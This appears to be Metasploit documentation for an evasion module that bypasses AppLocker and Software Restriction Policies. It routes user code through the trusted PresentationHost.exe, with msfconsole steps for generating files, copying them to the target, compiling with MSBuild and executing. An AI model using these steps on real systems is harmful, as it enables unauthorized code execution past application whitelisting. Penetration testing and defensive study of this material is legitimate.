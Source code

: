 ## Intro

This module is designed to evade solutions such as software restriction policies and Applocker.
Applocker in its default configuration will block code in the form of executables (.exe and .com, .msi), scripts (.ps1, .vbs, .js) and dll's from running in user controlled directories.
Applocker enforces this by employing whitelisting, in that code can only be run from the protected directories and sub directories of "Program Files" and "Windows"
The main vector for this bypass is to use the trusted binary PresentationHost.exe to execute user supplied code as this binary is located within the trusted Windows directory.

## Vulnerable Application

This evasion will work on all versions of Windows that include .NET versions 3.5 or greater that has solutions such as Applocker or Software Restriction Policies active, that do not explicitly block PresentationHost.exe.

## Options

- **CS_FILE** - Filename for the evasive file (default: presentationhost.xaml.cs).
- **MANIFEST_FILE** - Filename for the evasive file (default: presentationhost.manifest).
- **CSPROJ_FILE** - Filename for the evasive file (default: presentationhost.csproj).

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use evasion/windows/applocker_evasion_presentationhost`
  3. Do: `set PAYLOAD <payload>` (note: only x86 payloads are supported by this module)
  4. Do: `run`
  5. The module will now display instructions of how to proceed
  6. `[+] presentationhost.xaml.cs stored at /root/.msf4/local/presentationhost.xaml.cs`
  7. `[+] presentationhost.manifest stored at /root/.msf4/local/presentationhost.manifest`
  8. `[+] presentationhost.csproj stored at /root/.msf4/local/presentationhost.csproj`
  9. `[*] Copy presentationhost.xaml.cs, presentationhost.manifest and presentationhost.csproj to the target`
  10. `[*] Compile using: C:\Windows\Microsoft.Net\Framework\[.NET Version]\MSBuild.exe presentationhost.csproj` replace [.NET Version] with the version directory present on the target (typically "v4.0.30319").
  11. `[*] Execute using: C:\Windows\System32\PresentationHost.exe [Full Path To] presentationhost.xbap` replace [.NET Version] with the version directory present on the target (typically "v4.0.30319") and replace [Full Path To] with the full path to the .xbap.

## References

https://medium.com/tsscyber/applocker-bypass-presentationhost-exe-8c87b2354cd4
https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/what-is-applocker
https://docs.microsoft.com/en-us/windows-server/identity/software-restriction-policies/software-restriction-policies
